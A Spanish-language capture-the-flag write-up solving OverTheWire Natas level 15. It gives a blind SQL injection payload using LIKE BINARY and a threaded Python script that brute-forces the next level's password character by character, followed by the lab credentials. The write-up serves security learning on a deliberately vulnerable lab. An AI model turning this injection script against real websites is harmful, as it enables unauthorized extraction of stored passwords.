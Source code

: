```yaml
---
title: OverTheWire - Natas 14 -> 15 (sin navegador)
layout: post
description: La resolución de Natas 14 -> 15 sin el uso de un navegador web.
tags:
- OverTheWire
- Natas
- post
- writeups
---
```

# Información

---

> Las contraseñas cambian cada cierto tiempo, existe la posibilidad de que esta contraseña ya no sea válida

```
Username: natas15
Password: TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB
URL:      http://natas14.natas.labs.overthewire.org
```

# Solución

---

Abrimos Postman, pegamos la URL e ingresamos nuestras credenciales.

![](/images/images-otw-natas/natas14-15-1.png)

Vemos en la respuesta un formulario y un link que redirige al código fuente de la página.

![](/images/images-otw-natas/natas14-15-2.png)

Si vamos al link debemos hacer click en la pestaña **Preview** o no podremos visualizar correctamente el código.

![](/images/images-otw-natas/natas14-15-3.png)

Lo primero que notamos es una query SQL comentada indicandonos que existe una columna `username` y `password`. También notamos un SQLI en la formación de una query, esta query es vulnerable porque no tiene ningún tipo de filtro y nosotros podemos ingresar lo que queramos.

![](/images/images-otw-natas/natas14-15-4.png)

Más abajo también vemos que si agregamos el parámetro `debug` a la petición el servidor nos responderá con la query que hemos formado, esto nos ayudará con nuestra inyección.

![](/images/images-otw-natas/natas14-15-5.png)

Volvemos a la página principal y vamos a la pestaña **Params** para agregar rellenar los campos `debug`  y `username`.

![](/images/images-otw-natas/natas14-15-6.png)

Al recibir la respuesta vamos a la pestaña **Pretty**.

![](/images/images-otw-natas/natas14-15-7.png)

Vemos cómo se forma la query que se ejecuta en el servidor y además vemos que el usuario **123** no existe.

![](/images/images-otw-natas/natas14-15-8.png)

Intentamos con distintos nombres de usuario hasta que encontremos uno válido.

![](/images/images-otw-natas/natas14-15-9.png)

La página nos indica que el usuario **natas16** existe.

![](/images/images-otw-natas/natas14-15-10.png)

Como vimos al inicio del reto en la base de datos existen 2 columnas: **username** y **password**. Pero como el formulario no nos deja ingresar una contraseña debemos aprovechar la inyección SQLI para adivinar la contraseña. 

```
natas16" AND password LIKE "a%" -- -
```

Como no tenemos otra forma de conocer la contraseña haremos uso del mensaje **This user exists** y **This user doesn't exists**, cuando el caracter ingresado sea correcto la página nos mostrará **This user exists**. Pero hay un problema, `LIKE` no es case sensitive, esto nos traerá problemas porque las contraseñas de natas contienen mayúsculas y minúsculas, si queremos hacer una comparación case sensitive debemos usar `LIKE BINARY`. Quiero decir que si la contraseña tiene un caracter `B` y nosotros usamos `LIKE "b*"` la página nos dira que es correcto aunque no sea verdad.

```
natas16" AND password LIKE BINARY "a%" -- -
```

![](/images/images-otw-natas/natas14-15-11.png)

Podemos ir caracter por caracter probando pero esto no es nada eficiente.

![](/images/images-otw-natas/natas14-15-12.png)

Lo ideal es crear un script en tu lenguaje favorito, yo programé uno es python3 que usa **threads** para hacer la enumeración muchísimo más rápido.

![](/images/images-otw-natas/natas14-15-13.png)

```python
import urllib.request
import threading


def main():
    # Credentials
    url = "http://natas15.natas.labs.overthewire.org"
    username = "natas15"
    natas15_pwd = "TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB"

    characters = "abcdefghijklmnopqrstuvwxyz"
    characters += "ABCDEFGHIJKLMNOPQRSTUVWXYZ"
    characters += "1234567890"

    bandit16_pwd = []
    threads = []

    def test_password(character, password):
        # Authentication
        password_mgr = urllib.request.HTTPPasswordMgrWithDefaultRealm()
        password_mgr.add_password(None, url, username, natas15_pwd)
        handler = urllib.request.HTTPBasicAuthHandler(password_mgr)
        opener = urllib.request.build_opener(handler)
        opener.open(url)
        urllib.request.install_opener(opener)

        # SQL Injection
        payload = f'natas16" AND password LIKE BINARY "{password + character}%"-- -'
        data = {"username": payload}
        data = urllib.parse.urlencode(data).encode()
        req = urllib.request.Request(url, data=data)
        resp = urllib.request.urlopen(req)

        if b"This user exists" in resp.read():
            bandit16_pwd.append(character)

    for _ in range(32):
        password = "".join(bandit16_pwd)
        print(password)

        # For every character it creates a thread that make a request to the webpage
        for character in characters:
            t = threading.Thread(target=test_password, args=(character, password))
            threads.append(t)

        for x in threads:
            x.start()

        for x in threads:
            x.join()
        threads = []

    bandit16_pwd = "".join(bandit16_pwd)
    print(bandit16_pwd)


if __name__ == "__main__":
    main()
```

# Contraseña

---

`TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V`

---

## [Anterior](/level-13-14)

## [Siguiente](/level-15-16)
